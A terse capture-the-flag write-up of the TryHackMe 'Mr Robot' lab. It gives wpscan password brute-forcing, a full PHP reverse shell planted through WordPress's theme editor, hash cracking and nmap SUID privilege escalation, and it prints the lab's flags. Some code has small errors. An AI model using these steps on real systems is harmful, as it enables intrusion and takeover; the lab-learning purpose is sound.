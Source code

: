 ```yaml
---
layout: post
title: mr robots
date: 2021-04-09
categories: [tryhackme, Medium]
tags: [gobuster, code-analysis, Exploit] # add tag
image: /assets/img/mr.robot/rmrrobot.jpg
---
```


|Machine|Detail
|:---|:--
|Release date | 12 Sep 2020
|OS | Linux
|Rating | Medium
|Creator | [Ben](https://tryhackme.com/p/ben)

nmap -sC -sV ip -T5

gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt

10.10.61.197/key-1-of-3.txt [ 073403c8a58a1f80d943455fb30724b9 ]

wc -l fsocity.dic

sort fsocity.dic | uniq > fsocity-sorted.dic

wc -l fsocity-sorted.dic

10.10.61.197/wp-admin

wpscan --url 0.10.61.197 --wp-content-dir wp-admin --usernames elliot --passwords ~/Downloads/fsocity-sorted.dic

http://10.10.61.197/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409

```bash 
<?php
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
bash```

nc -nlvp 1234

http://10.10.61.197/wp-content/themes/twentyfifteen/archive.php

sukses

cd robot

cat password.raw-md5

john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5

python -c 'import pty; pty.spawn("/bin/bash")'

su robot

password : abcdefghijklmnopqrstuvwxyz

cat ~/key-2-of-3.txt [ 822c73956184f694993bede3eb39f959 ]

find / -perm /4000 -print 2>/dev/null

nmap --interactive

ketik command !sh 

